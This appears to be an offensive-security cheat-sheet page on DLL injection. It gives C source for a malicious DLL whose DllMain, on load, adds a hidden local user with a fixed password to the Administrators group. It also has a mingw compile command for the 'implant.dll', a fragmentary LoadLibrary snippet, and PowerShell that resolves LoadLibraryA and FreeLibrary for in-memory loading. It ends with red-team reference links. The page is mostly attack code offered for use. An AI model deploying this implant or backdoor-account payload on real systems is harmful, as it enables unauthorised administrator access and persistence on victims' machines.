 # DLL Injection

```c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
	    // add payload
        system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```
$ x86_64-w64-mingw32-gcc -shared -o implant.dll implant.c
```

Loads a dynamic-link library (DLL) module into the address space of the calling process.

```c
#include <windows.h>
#include <libloaderapi.h>

#pragma comment(lib, "kernel32.lib")

LoadLibrary
LoadLibraryA
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o implant.exe implant.c
```

## PowerShell

```powershell
$Win32Functions = New-Object System.Object

$LoadLibraryAddress = Get-ProcAddress kernel32.dll LoadLibraryA
$LoadLibraryDelegate = Get-DelegateType @([String]) ([IntPtr])
$LoadLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($LoadLibraryAddress, $LoadLibraryDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name LoadLibrary -Value $LoadLibrary

$FreeLibraryAddress = Get-ProcAddress kernel32.dll FreeLibrary
$FreeLibraryDelegate = Get-DelegateType @([IntPtr]) ([Bool])
$FreeLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($FreeLibraryAddress, $FreeLibraryDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name FreeLibrary -Value $FreeLibrary
```

---
## References

### Tenouk

- [Tenouk: Dynamic Link Library - Part 1](https://www.tenouk.com/ModuleBB.html)

- [Tenouk: Dynamic Link Library - Part 2](https://www.tenouk.com/ModuleCC.html)

- [Tenouk: Windows DLL - A Supplementary Note](https://www.tenouk.com/cbbccfunction.html)

### Red Team Notes

- [Red Team Notes: Executing Code as a Control Panel Item through an Exported Cplapplet Function](https://www.ired.team/offensive-security/code-execution/executing-code-in-control-panel-item-through-an-exported-cplapplet-function)

- [Red Team Notes: Code Execution through Control Panel Add-ins](https://www.ired.team/offensive-security/code-execution/code-execution-through-control-panel-add-ins)